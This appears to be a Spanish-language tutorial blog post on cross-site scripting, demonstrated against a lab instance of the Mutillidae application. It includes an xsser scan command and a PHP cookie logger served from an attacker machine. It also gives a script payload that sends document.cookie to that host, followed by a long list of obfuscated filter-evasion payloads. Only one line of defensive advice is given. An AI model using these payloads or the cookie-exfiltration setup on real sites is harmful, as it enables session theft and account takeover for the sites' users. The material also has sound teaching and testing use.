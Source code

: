 ```yaml
---
date: 2023-01-01T04:23:05.000Z
layout: post
comments: true
title: Cross Site Scripting (XSS)
subtitle: 'Secuencias de comandos en sitios cruzados'
description: >-
image: >-
    http://imgfz.com/i/NSOtC6A.jpeg
optimized_image: >-
    http://imgfz.com/i/NSOtC6A.jpeg
category: ciberseguridad
tags: 
  - hacking
  - exploit
  - vulnerabilidad
  - reflejado
  - robo
  - cookie
  - persistente
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una vulnerabilidad que permite a un atacante controlar parte del contenido de una aplicación web, al explotar un XSS, el atacante puede realizar algunas de las siguientes opciones:

* Modificar contenido de el sitio.
* Inyectar contenido malicioso.
* Robar cookies de sesión.
* Realizar acciones en la aplicación web como si fuera un usuario legítimo.
* Entre otros.

Las vulnerabilidades XSS se producen cuando una aplicación web utiliza entradas de usuario no filtradas para construir el contenido de salida que se muestra a sus usuarios finales; esto permite a un atacante controlar el código HTML y JavaScript de salida, en donde la entrada de uso es cualquier parámetro procedente del lado del cliente de la aplicación web como por ejemplo:

* La peticiones en las cabeceras.
* Las cookies.
* Entradas de un formulario.
* Parámetros POST y GET.

### Identificación de Vulnerabilidad

La forma más simple de verificar un Cross Site Scripting es por medio de la siguiente inyección:

```js
<script>alert('XSS')</script>
```

![xsssimpletest1](/images/xsstest1.png)

![xsssimpletest2](/images/xsstest1result.png)

Otra opción de verificación es por medio de la herramienta ```xsser```, en donde por medio de ```Burpsuite``` se consigue el target siguiente:

![burpxss](/images/xsstest1burp.png)

En la parte en que dice "test", se reemplaza por "XSS" y ejecutamos ```xsser``` con los siguiente parámetros:

```bash
┌──(root㉿kali)-[/XSS]
└─ xsser --url 'http://10.1.1.37/multillidae/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

Y como se aprecia encontró la vulnerabilidad existente en este sitio web:

![xssertest1](/images/xsstest1xsser.png)

Otras opciones que se pueden tener en consideración son las siguientes:

|Opción   |Descripción  |
|-------------|----------|
|--auto|Aplica múltiples payloads para verificar la vulnerabilidad.|
|--Fp|Con este parámetro se puede testear un payload propio, ocupando la siguiente forma como ejemplo, ``` --Fp "<script>alert('XSS')</script>"``` |

Para este caso se habla de un XSS reflejado, pues los ataques reflejados se producen cuando la carga maliciosa se transporta dentro de la solicitud que el navegador de la víctima envía al sitio web vulnerable.

Pueden desencadenarse mediante la publicación de un enlace en una red social o a través de una campaña de phishing. Cuando los usuarios hacen clic en el enlace, desencadenan el ataque.

#### Ejemplo 2 de XSS Reflejado

Otra opción para explotar un XSS reflejado, es por medio del URL, como sucede en la siguiente situación:

![xssurl](/images/xsstest1url.png)

Para esta situación se pueden aplicar cierto filtros de URL Encode:

![xssurlencode](/images/xsstest1url2.png)


### XSS Persistente

Los ataques XSS persistentes se producen cuando la carga útil se envía al servidor web vulnerable y luego se almacena, es decir, el código malicioso se entrega cada vez que un navegador web accede a la página web inyectada.

Un ejemplo es el siguiente en que siempre mostrará la cookie de sesión del usuario, las veces que se ingrese a la web:

![xsssimplecookie](/images/xsstest2.png)

![xsssimplecookieresonse](/images/xsstest2persistentone.png)

Y si se recarga la web infectada, seguiremos recibiendo como una respuesta persistente la cookie de sesión:

![xsssimplecookiereload](/images/xsstest2reload.png)

![xsssimplecookiereloadpersist](/images/xsstest2reloadpersist.png)


### XSS Robo de Cookie

Tal como se mostró en el ejemplo anterior existe la opción de que por medio de un Cross Site Scripting se roben cookies de sesión, pero para esta situación enviaremos las cookies a un servidor que simule el del atacante, a través del siguiente archivo en php:

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

Luego para poder recibir las cookies nos montamos un servidor con python verificando que en la carpeta en que se inicie se encuentre el archivo ```log.php```:

```bash
┌──(root㉿kali)-[/XSS]
└─ ls
log.php

┌──(root㉿kali)-[/XSS]
└─ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Para este ejemplo inyectaremos el siguiente payload, el cual genera un objeto imagen y apunta su "src" a un script en el servidor del atacante (10.1.1.19):

```js
<script>var i = new Image(); i.src="http://10.1.1.19/log.php?q="+document.cookie;</script>
```

![xssservercookie](/images/xsstest3.png)

Y recibimos la cookie en nuestro servidor:

![xssservercookieresponse](/images/xsstest2pythonrec.png)

Este se recibirá las veces que se ingrese a la página web atacada:

![xssservercookiereload](/images/xsstest3reload.png)

![xssservercookiereloadpy](/images/xsstest3reloadpython.png)

### Evasión de filtros

```

<svg><circle><set onbegin=prompt(1) attributename=fill>
["');alert('XSS');//"]@xyz.xxx
</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101))</SCRIPT>
%22%3E%3Csvg%20onload%3dalert%26%230000000040%22100%22)%3E
a%22%20accesskey%3d%22x%22%20onclick%3d%22alert(document.domain)%22%20test%3d%22test%3dxss
\u003e\u003cimg src=1 onerror=alert(0)\u003e
<abdool attr=" --- x="=='='onmouseover=confirm`abdool` style="display:block;width:1000px;height:1000px;background:red">
test"><img src=x on0x=1 onerror=alert(/POC/)>
<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ==")>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//
javaScRipt:Alert(‘1’)
<svg onload=eval(location.hash.slice(1))>
"><svg/onload=alert%26%230000000040"Hacked")>
<iframe src="data:image/svg+xml;base64,CjxzdmcgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIj4KICA8aW1hZ2UgaHJlZj0ieCIgb25lcnJvcj0iamF2YXNjcmlwdDphbGVydCgncHduZWQgZXJuYW5zJykiIC8+Cjwvc3ZnPg=="/>
"><BODy onbeforescriptexecute="x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c">
test"%20onmouseover="prompt%26%2300000000000000000040;%27XSS%27%26%2300000000000000000041;
<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>
test@gmail.com%2527%5C%2522%253E%253Csvg%2Fonload%3Dalert%28%2Fxss%2F%29%253E
<xss onscrollend=alert(1) style="display:block;overflow:auto;border:1px dashed;width:500px;height:50px;"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><span id=x>test</span></xss>
%09Jav%09ascript:alert(document.domain)
%3CSvg%20Only%3D1%20OnLoad%3Dconfirm(1)%3E
"%3e%3cImG%20sRC=X%20OneRRoR=alert(document.cookie)%20"%3c
xyz"/ng-click="constructor.constructor('alert(1)')()


```

### Recomendación

Todos estos canales de entrada deben ser validados por el servidor mediante funciones de seguridad bien implementadas que deben desinfectar o filtrar la entrada de los usuarios.
